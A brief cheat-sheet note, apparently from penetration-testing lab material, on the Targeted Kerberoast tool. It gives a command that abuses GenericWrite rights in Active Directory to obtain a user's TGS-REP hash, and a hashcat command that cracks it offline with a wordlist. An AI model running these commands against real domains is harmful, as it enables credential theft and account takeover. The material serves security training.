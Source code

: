 # Name
Targeted Kerberoast
## Usage
```
# Use to exploit GenericWrite access on another user
./targetedKerberoast.py --dc-ip '192.168.170.70' -v -d 'prod.corp1.com' -u 'offsec' -p 'lab 

# Will output TGS-REP hash & crack using
hashcat -m 13100 hash.txt rockyou.txt
```
## Source
https://github.com/ShutdownRepo/targetedKerberoast?tab=readme-ov-file

